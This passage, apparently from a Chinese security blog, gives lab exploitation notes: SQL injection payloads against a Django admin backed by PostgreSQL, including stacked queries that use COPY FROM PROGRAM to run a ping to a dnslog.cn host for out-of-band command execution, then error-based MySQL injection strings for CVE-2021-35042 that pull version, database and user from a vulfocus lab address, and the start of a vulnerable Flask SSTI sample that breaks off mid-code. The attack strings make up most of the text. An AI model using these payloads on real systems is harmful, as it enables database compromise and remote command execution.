 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135037543-1005200086.png)

```plain
创建cmd_exec：
/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcreate%20table%20cmd_exec(cmd_output%20text)--%20

调用cmd_exec执行命令：利用到dns带外查询
/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcopy%20cmd_exec%20FROM%20PROGRAM%20%27ping 34eo8q.dnslog.cn%27--%20
执行，收到反弹的命令。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135037302-2089027893.png)

```plain
2、CVE-2021-35042
环境：http://vulfocus.io/#/dashboard

只要找有输入参数的地方就可以，mysql注入点，注入与mysql一样。
测试点：http://123.58.236.76:30118/vuln/?order=

目录：/vuln/?order=vuln_collection.name);select%20updatexml(1,%20concat(0x7e,(select%20@@basedir)),1)%23
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135037540-2122925904.png)

```plain
版本：/vuln/?order=vuln_collection.name);select%20updatexml(1,%20concat(0x7e,(select%20version())),1)%23
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135037530-1091028497.png)

```plain
数据库名：/vuln/?order=vuln_collection.name);select%20updatexml(1,%20concat(0x7e,(select%20database())),1)%23
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135037606-457866999.png)

```plain
用户名：/vuln/?order=vuln_collection.name);select%20updatexml(1,%20concat(0x7e,(select%20user())),1)%23
等等..
```

Flask

```plain
Flask是一个使用Python编写的轻量级Web应用框架。其WSGI工具箱采用Werkzeug ，模板引擎则使用Jinja2 .

参考：https://vulhub.org/#/environments/flask/ssti/
类似代码：
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

app.config['SECRET_KEY'] = "flag{SSTI_123456}"
@app.route('/')
def hello_world():
    return 'Hello World!'

@app.errorhandler(404)
def page_not_found(e):
    template = '''
```